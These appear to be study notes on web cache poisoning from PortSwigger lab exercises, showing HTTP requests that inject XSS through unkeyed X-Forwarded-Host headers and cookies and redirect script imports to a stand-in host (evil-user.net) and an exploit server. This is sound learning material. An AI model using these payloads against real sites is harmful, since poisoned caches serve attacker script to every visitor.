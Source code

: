 [[cache poisoning]]
## [[XSS]]
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public 
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

`X-Forwarded-Host` header is being used to dynamically generate an Open Graph image URL, which is then reflected in the response. It's also often unkeyed.
#### Poison example:
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

## Unsafe handling of resource imports
```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

## Cookie-handling vulnerabilities
Cookies are not included in the cache key.
Example:
```HTTP
GET / HTTP/2
Host: 0a3a00d8046d91ef80cce42100ef002e.web-security-academy.net
Cookie: fehost=prod-cache-01"}%3balert(1)//; session=QfTJLIM9bSLO6dLu6DjpBGIpdEaMRwEA
```

## Multiple headers
Example:
```http
GET /resources/js/tracking.js HTTP/2
Host: 0aa100d70367a08c80fb535000060064.web-security-academy.net
X-Forwarded-Host: exploit-0a05009b0370a021800b52c9014200a4.exploit-server.net
X-Forwarded-Scheme: http
```
If scheme is http, then redirect to `scheme://host`

## Exploiting responses that expose too much information
### Cache-control directives
Example of cache age disclosure:
```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```
### Vary header
`Vary` header specifies a list of additional headers that are part of the cache key.

#to-be-continued 
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flawsПр